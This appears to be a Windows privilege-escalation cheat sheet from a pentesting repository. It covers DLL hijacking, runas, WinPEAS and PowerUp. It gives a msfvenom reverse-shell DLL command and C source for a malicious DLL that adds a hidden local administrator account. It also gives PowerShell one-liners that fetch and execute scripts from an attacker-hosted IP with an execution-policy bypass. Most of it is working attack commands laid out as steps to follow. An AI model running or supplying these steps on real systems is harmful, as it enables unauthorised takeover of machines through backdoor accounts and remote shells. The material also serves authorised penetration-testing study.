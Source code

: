 # DLL Hijacking
By hijacking a DLL a high privileged service uses, privesc is possible.
## Standard DLL search order
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
## How to exploit
Either a DLL being missing or placing a malicious dll higher on the search order than the legitimate one works.
1. Download the potentially vulnerable service and procmon (https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) on a non-target machine.
2. With the service running, click on the Filter menu > Filter... to get into the filter configuration.
3. The filter should be "Process Name is $SERVICE.EXE then Include".
4. Observe "CreateFile" operations for DLL's.
5. Refer to the Standard DLL search order. If there are "CreateFile" operations of DLL's, are there any DLL's place lower on the search order? For example, if the DLL's are writing to the system directory, is the application directory writeable by user? If so, a malicious DLL can be crafted and placed there to be executed.
## Crafting a malicious DLL
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$(IP_ADDRESS) LPORT=$(PORT) -f dll -o $NAME_OF_VULNERABLE_DLL.dll
```
Or
```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
Cross-compile:
```bash
x86_64-w64-mingw32-gcc maliciousdll.cpp --shared -o $NAME_OF_VULNERABLE.dll
```
Download to target machine:
```powershell
iwr -uri http://$(ATTACKER_IP)/$NAME_OF_VULNERABLE.dll -OutFile 'C:\Path\to\higher\dll\search\order\$NAME_OF_VULNERABLE.dll'
```
Once the service that uses the vulnerable DLL is started or restarted by someone of higher privileges (if the service startup type is automatic, the system can be rebooted), then the malicious DLL will be run.
# No GUI?
If a compromised user isn't part of "Remote Desktop Users" or "Remote Management Users", this means RDP access can't be gained as that user.

Instead, use runas on an account with GUI access to run a cmd or powershell:
```powershell
runas /user:$USER cmd
```
# Winpeas
```powershell
powershell -exec bypass -c "iex ((New-Object System.Net.WebClient).DownloadString('http://$IP_ADDRESS/winpeas.ps1'))"
```
```
<insert winpeas output here>
```
```powershell
iwr -uri http://$(IP_ADDRESS)/winPEASx64.exe -Outfile winPEAS.exe
```
```
<insert output from winpeas exe here>
```
# PowerUp
```batch
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
```
```powershell
iwr -uri http://$(IP_ADDRESS)/PowerUp.ps1 -Outfile PowerUp.ps1
```
```powershell
powershell -ep bypass
```
```powershell
. .\PowerUp.ps1
```
```powershell
Get-ModifiableServiceFile
```
```
<insert output here>
```
```powershell
Get-UnquotedService
```
```
<insert output here>
```
